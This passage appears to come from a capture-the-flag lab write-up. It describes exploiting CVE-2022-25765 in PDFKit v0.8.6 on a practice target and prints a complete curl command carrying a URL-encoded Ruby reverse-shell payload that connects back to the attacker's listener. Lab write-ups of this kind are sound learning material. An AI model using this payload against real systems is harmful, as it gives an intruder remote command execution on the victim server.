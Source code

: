 Upon further investigation of Bug 1214658, I discovered that it was related to the Chrome browser and the website's API. However, I did not delve any deeper into this bug at this time. Further analysis of this bug may reveal additional vulnerabilities that could be exploited, and it may be worthwhile to revisit this issue in the future to assess its potential impact on the target system's security.

After successfully accessing the PDF page using the path traversal vulnerability, I attempted to view the page source and accessed the console to investigate the error message that had been encountered earlier. Through this process, I was able to identify the version of PDFKIT being used on the website.

![Image13](https://github.com/visionthex/Precious/blob/main/Images/image13.png "Console Error Message")

After identifying the [(CVE-2022-25765)](https://github.com/PurpleWaveIO/CVE-2022-25765-pdfkit-Exploit-Reverse-Shell) vulnerability in PDFKIT v0.8.6, I exploited it by injecting a malicious code snippet into the website. To accomplish this, I set up a Python 3 HTTP server and a Netcat listener to receive the reverse shell connection. Then, using the `curl` command in the terminal on Linux, I sent the payload containing the code snippet to the website. This allowed me to gain remote access to the target system and execute arbitrary commands through the reverse shell connection.

```
curl 'TARGET-URL' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_URL' -H 'Connection: keep-alive' -H 'Referer: TARGET_URL' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-IP%3ALOCAL-HTTP-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-IP%22%2CLOCAL-LISTEN-PORT%29%29%27%60'
```
![Image14](https://github.com/visionthex/Precious/blob/main/Images/image14.png "Python3 -m http.server for Ruby script")
